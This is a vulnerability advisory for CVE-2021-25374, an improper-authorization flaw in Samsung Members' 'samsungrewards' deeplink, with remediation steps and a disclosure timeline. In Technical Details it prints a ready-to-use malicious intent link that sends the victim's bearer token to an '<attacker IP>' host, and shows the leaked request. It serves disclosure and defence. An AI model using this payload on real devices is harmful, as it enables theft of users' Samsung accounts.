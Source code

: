 ```yaml
---
layout: cve
title: "Samsung Members Improper Authorization"
cve_id: "CVE-2021-25374"
date: 2021-04-01
reference: 
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25374
  - https://security.samsungmobile.com/serviceWeb.smsb?year=2021&month=4
description: "An improper authorization vulnerability in Samsung Members “samsungrewards” scheme for deeplink in versions 2.4.83.9 in Android O(8.1) and below, and 3.9.00.9 in Android P(9.0) and above allows remote attackers to access a user data related with Samsung Account."
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-s20-gain-access-to-samsung-account/](https://labs.f-secure.com/advisories/samsung-s20-gain-access-to-samsung-account/)

|    **Product**    | Samsung phones with Samsung Members (version dependent on OS) |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2021-25374             |
|      **Type**     |          Authentication Bypass         |

## Description

F-Secure looked into exploiting the Samsung S20 device for Tokyo Pwn2Own 2020. An issue was discovered that would have allowed an attacker to gain access to the victim's Samsung Account. 

## Technical Details

Samsung Members (com.samsung.android.voc) is an application which offers tips and solutions for Samsung device owners. For US and South Korean users, the app also offers a portal to login to Samsung Members, the official Samsung loyalty program.

A webview within the Samsung Rewards section of the application could be used to obtain access to someone's Samsung account. The following launchable intent could be used to replicate this issue:

```
<a href="intent://launch?url=http://<attacker IP>:8000/yay.html&action=sso&from=ZZ&iso=ZZ#Intent;scheme=samsungrewards;package=com.samsung.android.voc;action=android.intent.action.VIEW;end;">yay click here yay</a>
```

Users that have a vulnerable version of Samsung Members installed are at risk of having their Samsung Account compromised via the above browsable link. After tapping the above link on a vulnerable phone, the application will make a HTTP request similar to the following, which contains the user’s authorization bearer token and appid. In this scenario, an attacker controls the IP address located at "<attacker IP>":

```
GET /yay.html HTTP/1.1
Host: <attacker IP>:8000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; SM-G985F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/85.0.4183.127 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
authorization: Bearer <bearer value>
x-osp-appid: <appid value>
X-Requested-With: com.samsung.android.voc
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Using these two pieces of information, it is possible for an attacker to make a series of requests that would give the attacker access to the user’s Samsung Account. F-Secure developed a Python Proof of Concept (PoC) script that would automate the series of requests and print the account's profile information. The screenshot below shows the PoC script in action (left) and what the phone displays during exploitation (right):

<div align="center">
    <img src="/assets/cves/cve-2021-25374_1.png">
</div>

The PoC script can be found on Yogehi's GitHub page at [https://github.com/Yogehi/CVE-2021-25374_Samsung-Account-Access](https://github.com/Yogehi/CVE-2021-25374_Samsung-Account-Access).

## Remedial Action

Samsung has released patched versions of Samsung Members which addresses the above issue. The version that should be downloaded depends on the OS of the device itself.

* Devices running Android O (8.1) and below should download Samsung Members version 2.4.83.9 or above
* Devices running Android P (9.0) and above should download Samsung Members version 3.9.00.9 or above

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   03/10/2020   | Issue disclosed to Samsung Mobile Security |
|   03/10/2020   | Issue assigned to a Samsung Security Analyst |
|   25/10/2020   | Samsung confirms the vulnerability and rates it as a high risk issue |
|   11/01/2021   | Follow up sent to Samsung |
|   11/01/2021   | Samsung responded to follow up saying a patch is still being worked on |
|   06/04/2021   | Patch released, Samsung initiates process for bug bounty reward |
|   06/04/2021   | CVE Assigned |
|   28/04/2021   | Advisory Published |